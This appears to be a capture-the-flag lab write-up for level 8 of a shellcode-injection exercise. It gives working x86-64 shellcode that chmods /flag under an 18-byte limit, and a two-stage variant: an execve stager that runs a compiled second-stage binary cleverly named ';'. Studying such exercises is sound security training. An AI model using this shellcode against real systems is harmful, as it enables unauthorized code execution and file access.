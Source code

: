 

## level 8

> Write and execute shellcode to read the flag, but you only get 18 bytes.

* We could just use the code from [level 4](shellcode-injection.md#level-4), as it is 14 bytes long.

```
~$ objdump -d shellcode -M intel

0000000000001000 <_start>:
    1000:       68 66 6c 61 67          push   0x67616c66
    1005:       54                      push   rsp
    1006:       5f                      pop    rdi
    1007:       40 b6 04                mov    sil,0x4
    100a:       b0 5a                   mov    al,0x5a
    100c:       0f 05                   syscall 
```

* As we are not writing anything in this code, we can just ignore the fact that first 4096 bytes are non-writeable.
* However I think this is a great opportunity to get familiar with [multi-stage shellcode](https://compilepeace.medium.com/shellcoding-0x3-dropping-multi-stage-payload-fdd635fcbf70). A multi-stage shellcode uses multiple scripts that execute the next script.
* We can use two shellcode scripts for this level. The size restriction will only be enforced on the first script.
* We will begin writing the second stage first.

```c
// catflag.c

void main()
{
    chmod("/flag", 4);
}
```

* Now let's compile this file using the following command:

```
gcc catflag.c -o \;
```

* Notice the output is a file named `;` whose value is `0x3b`.
* The first shellcode which is also know an dropper payload or stager, will use `execve` and execute the second stage.

```armasm
# Execve syscall
mov al, 0x3b
push rax
mov rdi, rsp 
xor rsi, rsi
xor rdx, rdx
syscall
```
